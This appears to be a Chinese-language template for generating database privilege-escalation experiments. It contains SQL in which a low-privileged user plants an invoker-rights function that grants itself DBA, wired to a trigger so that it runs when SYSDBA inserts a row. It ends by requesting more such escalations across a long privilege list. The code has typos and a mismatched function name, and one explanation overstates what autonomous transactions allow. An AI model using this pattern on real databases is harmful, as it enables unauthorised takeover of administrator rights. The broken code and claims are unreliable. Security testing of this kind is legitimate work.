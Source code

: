 该测试用例就是Oracle数据库中触发器调用函数提权的例子：
SYSDBA:
```SQL
--登录
CONNECT SYSDBA/SYSDBA;
--创建用户
CREATE USER USER1 IDENTIFIED BY 123456789;
--授予权限
GRANT CREATE SESSION TO USER1;
GARNT CREATE TABLE, CREATE PRODUCURE, CREATE TRIGGER TO USER1;
```

USER1用户:
```SQL
--登录系统
CONNECT USER1/123456789;
--创建表
CREATE TABLE T2(ID INT, NAME VARCHAR(20));

--创建授权函数
CREATE OR REPLACE FUNCTION GRANT_PRIVILEGES
RETURN VARCHAR2
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT DBA TO USER1';
    COMMIT;
    RETURN 'GRANTED';
END;

--创建触发器，调用函数
CREATE OR REPLACE TRIGGER INSERT_GRANT
AFTER INSERT ON USER1.T2
FOR EACH ROW
BEGIN
 --调用函数
 CALL GRANT_PRIVILEGE();
END;
```

SYSDBA用户:
```SQL
--登录
CONNECT SYSDBA/SYSDBA;
--插入数据，触发触发器进行授权
INSERT INTO USER1.T2 VALUES(1, 'SYSDBA');

--USER1用户
--登录系统
CONNECT USER1/123456789;
--查看权限
SELECT * FROM USER_SYS_PRIVS;
```

由于`GRANT_PRIVILEGES`函数中使用了`PRAGMA AUTONOMOUS_TRANSACTION;`，这使得函数内的事务独立于外部事务。这意味着，即便是没有`DBA`权限的用户也能通过这个独立的事务尝试执行通常不被允许的操作，这里的操作是尝试给自己授予`DBA`角色。

`EXECUTE IMMEDIATE`是PL/SQL中的一个语句，它用于动态地执行一个单条的SQL语句或PL/SQL块，这个语句或块是以字符串的形式提供的。这允许程序在运行时构建并执行不是静态编码在源代码中的SQL语句或PL/SQL代码块。

这里有几个`EXECUTE IMMEDIATE`的主要用途：

1. **动态SQL执行**：在编译时可能不知道具体的SQL语句，或者SQL语句依赖于运行时的条件。例如，基于用户输入构建一个查询。
2. **权限提升**：当一个存储过程或函数以一个用户的权限运行时，它可能需要执行一些该用户在普通情况下没有权限执行的SQL操作。通过`EXECUTE IMMEDIATE`，可以在具有适当权限的存储过程或函数中动态执行这些操作。
3. **绕过编译时的语法检查**：通常，PL/SQL代码在编译时会检查所有的SQL语句确保它们语法上是正确的。使用`EXECUTE IMMEDIATE`，可以在运行时才构造并检查SQL语句。
4. **执行DDL语句**：PL/SQL通常用于执行DML语句（如INSERT、UPDATE、DELETE），但若要执行DDL（如CREATE、ALTER、DROP），必须使用`EXECUTE IMMEDIATE`。


`INSERT_GRANT触发器是由USER1用户创建的，在执行的过程中默认使用的是创建者的权限，但是如果在触发器中又调用了函数，那么在执行的时候，使用的是调用者的权限。

触发器的触发时机：
    BEFORE INSERT: 在插入数据之前执行触发器内部逻辑
    AFTER INSERT: 在插入数据之后执行触发器内部逻辑
    BEFORE UPDATE: 在更新数据之前执行触发器内部逻辑
    AFTER UPDATE: 在更新数据之后执行触发器内部逻辑
    BEFORE DELETE: 在删除数据之前执行触发器内部逻辑
    AFTER DELETE: 在删除数据之后执行触发器内部逻辑
    INSTEAD OF INSERT: 在执行插入时，使用触发器内部逻辑来替换掉插入语句的标准操作
    INSTEAD OF UPDATE: 在执行更新时，使用触发器内部逻辑来替换掉更新语句的标准操作
    INSTEAD OF DELETE: 在执行删除时，使用触发器内部逻辑来替换掉删除语句的标准操作
除此之外，也会存在一些组合情况，比如BEFORE INSERT OR DELETE等等。

这是一个很典型的数据库提权实验，需要继续生成类似的提权实验，涉及到的其他权限还可以包括，可以选择其中的一个或多个权限并生成相应的对象：
ADMIN ANY DATABASE PRIVILEGE
ADMIN ANY ROLE
ADMIN BUFFER
ADMIN JOB
ADMIN REPLAY
ALTER ANY CONTEXT INDEX
ALTER ANY INDEX
ALTER ANY MATERIALIZED VIEW
ALTER ANY SCHEMA
ALTER ANY SEQUENCE
ALTER ANY TABLE
ALTER ANY TRIGGER
ALTER ANY VIEW
ALTER CONTEXT INDEX
ALTER DATABASE
ALTER INDEX
ALTER MATERIALIZED VIEW
ALTER PROFILE
ALTER REPLICATE
ALTER SEQUENCE
ALTER TABLE
ALTER TABLESPACE
ALTER TRIGGER
ALTER USER
ALTER VIEW
BACKUP DATABASE
COMMENT ANY TABLE
CREATE ANY CONTEXT
CREATE ANY CONTEXT INDEX
CREATE ANY DIRECTORY
CREATE ANY DOMAIN
CREATE ANY INDEX
CREATE ANY LINK
CREATE ANY MATERIALIZED VIEW
CREATE ANY OPERATOR
CREATE ANY PACKAGE
CREATE ANY PARTITION GROUP
CREATE ANY PROCEDURE
CREATE ANY SCHEMA
CREATE ANY SEQUENCE
CREATE ANY SYNONYM
CREATE ANY TABLE
CREATE ANY TRIGGER
CREATE ANY VIEW
CREATE CONTEXT INDEX
CREATE DOMAIN
CREATE INDEX
CREATE LINK
CREATE MATERIALIZED VIEW
CREATE OPERATOR
CREATE PACKAGE
CREATE PARTITION GROUP
CREATE PROCEDURE
CREATE PROFILE
CREATE PUBLIC SYNONYM
CREATE REPLICATE
CREATE ROLE
CREATE SCHEMA
CREATE SEQUENCE
CREATE SESSION
CREATE SYNONYM
CREATE TABLE
CREATE TABLESPACE
CREATE TRIGGER
CREATE USER
CREATE VIEW
DELETE ANY TABLE
DELETE ANY VIEW
DELETE TABLE
DELETE VIEW
DROP ANY CONTEXT
DROP ANY CONTEXT INDEX
DROP ANY DIRECTORY
DROP ANY DOMAIN
DROP ANY INDEX
DROP ANY LINK
DROP ANY MATERIALIZED VIEW
DROP ANY OPERATOR
DROP ANY PACKAGE
DROP ANY PARTITION GROUP
DROP ANY PROCEDURE
DROP ANY SCHEMA
DROP ANY SEQUENCE
DROP ANY SYNONYM
DROP ANY TABLE
DROP ANY TRIGGER
DROP ANY VIEW
DROP CHARACTER SET
DROP COLLATION
DROP CONTEXT INDEX
DROP DOMAIN
DROP INDEX
DROP LINK
DROP MATERIALIZED VIEW
DROP OPERATOR
DROP PACKAGE
DROP PARTITION GROUP
DROP PROCEDURE
DROP PROFILE
DROP PUBLIC SYNONYM
DROP REPLICATE
DROP ROLE
DROP SCHEMA
DROP SEQUENCE
DROP SYNONYM
DROP TABLE
DROP TABLESPACE
DROP TRIGGER
DROP USER
DROP VIEW
DUMP ANY TABLE
DUMP TABLE
EXECUTE ANY PACKAGE
EXECUTE ANY PROCEDURE
EXECUTE PACKAGE
EXECUTE PROCEDURE
FLASHBACK ANY TABLE
FLASHBACK TABLE
GRANT ANY CONTEXT
GRANT ANY DOMAIN
GRANT ANY OBJECT PRIVILEGE
GRANT ANY PACKAGE
GRANT ANY PROCEDURE
GRANT ANY TABLE
GRANT ANY VIEW
GRANT CONTEXT
GRANT DOMAIN
GRANT PACKAGE
GRANT PROCEDURE
GRANT TABLE
GRANT VIEW
INSERT ANY TABLE
INSERT ANY VIEW
INSERT TABLE
INSERT VIEW
REFERENCES ANY TABLE
REFERENCES TABLE
RESOURCE CREATE SCHEMA
RESTORE DATABASE
SELECT ANY DICTIONARY
SELECT ANY MATERIALIZED VIEW
SELECT ANY SEQUENCE
SELECT ANY TABLE
SELECT ANY VIEW
SELECT MATERIALIZED VIEW
SELECT SEQUENCE
SELECT TABLE
SELECT VIEW
UNLIMITED TABLESPACE
UPDATE ANY TABLE
UPDATE ANY VIEW
UPDATE TABLE
UPDATE VIEW
USAGE ANY DOMAIN
USAGE ANY PARTITION GROUP
USAGE DOMAIN
USAGE PARTITION GROUP